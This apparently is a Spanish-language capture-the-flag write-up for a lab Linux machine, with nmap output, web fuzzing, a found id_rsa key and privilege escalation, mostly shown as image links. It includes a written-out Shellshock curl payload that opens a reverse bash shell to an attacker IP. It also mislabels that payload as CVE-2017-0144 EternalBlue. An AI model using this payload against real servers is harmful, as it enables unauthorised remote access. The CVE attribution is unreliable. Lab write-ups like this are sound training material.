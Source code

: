 #Linux #medium 
### nma
```python
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 57:20:82:3c:62:aa:8f:42:23:c0:b8:93:99:6f:49:9c (DSA)
|   2048 4c:40:db:32:64:0d:11:0c:ef:4f:b8:5b:73:9b:c7:6b (RSA)
|   256 f7:6f:78:d5:83:52:a6:4d:da:21:3c:55:47:b7:2d:6d (ECDSA)
|_  256 a5:b4:f0:84:b6:a7:8d:eb:0a:9d:3e:74:37:33:65:16 (ED25519)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-title: 0day
|_http-server-header: Apache/2.4.7 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 33.39 seconds
```

### Ports

| PORT   | STATE | SERVICE | VERSION                                                         |
| ------ | ----- | ------- | --------------------------------------------------------------- |
| 22/tcp | open  | ssh     | OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0) |
| 80/tcp | open  | http    | Apache httpd 2.4.7 ((Ubuntu))                                   |

### Enumeración puerto 80

![[Pasted image 20240224203940.png]]

### Fuzzing con wffuzz

![[Pasted image 20240224204334.png]]
###### en el directorio backup encontramos un id_rsa
![[Pasted image 20240224204640.png]]

### Common Vulnerabilities and Exposures
###### CVE-2017-0144 - EternalBlue
```python
curl -A "() { :; }; echo Content-type: text/html; echo; /bin/bash -i >& /dev/tcp/10.8.74.185/7890 0>&1" "http://10.10.245.192/cgi-bin/test.cgi"
```

![[Pasted image 20240224212355.png]]

### Escalada de privilegios

###### sacamos el hash del id_rsa
![[Pasted image 20240224220415.png]]
parece que no funciona esta id_rsa

### Enumeracion del sistema

![[Pasted image 20240224224841.png]]
tenemos un exploit para esta version de linux. creamos un servidor y lo compartimos con la maquina
###### vamos a sobre escribir el path debido a que el actual parece estar dañado
```python
	export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

![[Pasted image 20240224225042.png]]

### WE ARE ROOT
